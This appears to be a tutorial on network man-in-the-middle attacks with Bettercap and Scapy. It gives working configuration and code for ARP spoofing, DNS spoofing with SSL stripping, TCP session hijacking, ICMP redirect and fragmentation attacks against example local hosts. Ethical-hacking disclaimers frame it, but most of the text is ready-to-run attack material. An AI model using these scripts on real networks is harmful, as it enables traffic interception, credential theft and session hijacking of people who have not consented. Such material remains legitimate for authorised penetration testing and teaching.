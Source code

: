 
# **Advanced Packet Manipulation Using Bettercap and Scapy**

This article provides a step-by-step guide on how to use **Bettercap** and **Scapy** to manipulate network packets for **DNS spoofing, ARP poisoning, TCP hijacking, and more**. These techniques are useful for **penetration testing, ethical hacking, or network troubleshooting**. 

**Note**: Always perform these activities in a **controlled environment** with **explicit permission** to avoid legal consequences.

---

## **1. Installing Bettercap and Scapy**

- **Bettercap**: Used for **ARP spoofing, DNS spoofing**, and network MITM attacks.
- **Scapy**: A Python library for **packet crafting and injection**.

### **Installation**

On **Debian/Ubuntu-based systems**:
```bash
sudo apt update && sudo apt install bettercap python3-scapy
```

On **Arch-based systems**:
```bash
sudo pacman -S bettercap python-scapy
```

On **Windows**:
1. Install Python from [https://python.org](https://python.org).
2. Use `pip` to install Scapy:
   ```bash
   pip install scapy
   ```

---

## **2. Using Bettercap for ARP Spoofing and DNS Spoofing**

ARP and DNS spoofing are essential techniques for **man-in-the-middle (MITM) attacks**.

### **Step 1: Configure Bettercap for ARP and DNS Spoofing**

Create a **caplet script** (e.g., `spoof.cap`) with the following content:
```plaintext
set dns.spoof.domains cloudmateria.com
set dns.spoof.address 192.168.1.100  # Local server IP
dns.spoof on

set arp.spoof.targets 192.168.1.2,192.168.1.14
arp.spoof on
net.probe on
https.proxy on
set https.proxy.sslstrip true
```

This script will:
- Redirect traffic for `cloudmateria.com` to your local server.
- Perform **ARP spoofing** on two devices to reroute their traffic.
- Enable **SSL stripping** to downgrade HTTPS to HTTP.

### **Step 2: Run Bettercap with the Caplet Script**

1. **Open a terminal** and run Bettercap:
   ```bash
   sudo bettercap -iface eth0
   ```

2. **Load and run the script**:
   ```bash
   caplet /path/to/spoof.cap
   ```

---

## **3. TCP Packet Injection Using Scapy**

You can use **Scapy** to **inject TCP packets** into an active connection or perform **TCP session hijacking**.

### **Step 1: Send a Custom TCP Packet**

This example sends a **SYN packet** to **192.168.1.2** on port 80:
```python
from scapy.all import *

packet = IP(dst="192.168.1.2") / TCP(dport=80, flags="S")
send(packet)
```

### **Step 2: TCP Session Hijacking with Scapy**

1. Intercept the **TCP sequence number** using **Wireshark** or Bettercap.
2. Inject a malicious packet with the same **sequence number**:
   ```python
   hijack_packet = IP(dst="192.168.1.2") / TCP(dport=80, seq=1001, flags="PA") / "GET / HTTP/1.1
Host: cloudmateria.com

"
   send(hijack_packet)
   ```

This packet will **inject a malicious HTTP request** into the existing TCP connection.

---

## **4. ICMP Redirect Attack Using Scapy**

An **ICMP redirect attack** forces the target to route packets through your machine.

### **Step 1: Send an ICMP Redirect Packet**

This example sends an ICMP redirect to **192.168.1.2**, instructing it to route traffic through **192.168.1.100**:
```python
from scapy.all import *

redirect = IP(dst="192.168.1.2") / ICMP(type=5, code=1, gw="192.168.1.100")
send(redirect)
```

---

## **5. DNS Cache Poisoning with Bettercap**

Using **Bettercap**, you can **poison DNS queries** to redirect the target’s traffic to a fake site.

### **Step 1: Configure Bettercap for DNS Spoofing**

Add this to your **caplet script**:
```plaintext
set dns.spoof.domains cloudmateria.com
set dns.spoof.address 192.168.1.100
dns.spoof on
```

This will redirect all traffic to `cloudmateria.com` to your **local server**.

---

## **6. Fragmentation Attack Using Scapy**

A **fragmentation attack** sends fragmented packets to confuse the target’s packet reassembly process.

### **Step 1: Send Fragmented Packets**

```python
from scapy.all import *

frags = fragment(IP(dst="192.168.1.2") / TCP(dport=80) / "malicious payload", fragsize=8)
send(frags)
```

This sends **fragmented packets** with a malicious payload, which the target will reassemble incorrectly.

---

## **7. Monitoring Traffic with Wireshark**

1. **Start Wireshark** and select the network interface (e.g., `eth0`).
2. **Apply Filters** to narrow down the captured packets:
   - **Filter by IP and Port**:
     ```plaintext
     ip.addr == 192.168.1.2 and tcp.port == 80
     ```
   - **Filter by DNS**:
     ```plaintext
     dns and ip.addr == 192.168.1.2
     ```

3. **Analyze the Packets**:
   - Identify **TCP sequence numbers** for hijacking.
   - Confirm **DNS spoofing success** by checking the DNS response IP.

---

## **8. Legal and Ethical Considerations**

All the techniques described in this guide are intended for **ethical hacking and testing purposes**. **Unauthorized interception or manipulation of traffic is illegal**. Always obtain **written permission** before conducting any tests on a network you do not own.

---

## **Conclusion**

By combining **Bettercap** for DNS spoofing and ARP poisoning with **Scapy** for packet injection, you can perform advanced **network manipulation techniques**. These tools allow you to manipulate traffic, hijack sessions, inject custom packets, and perform ICMP attacks. Always use these techniques responsibly and within the bounds of the law.
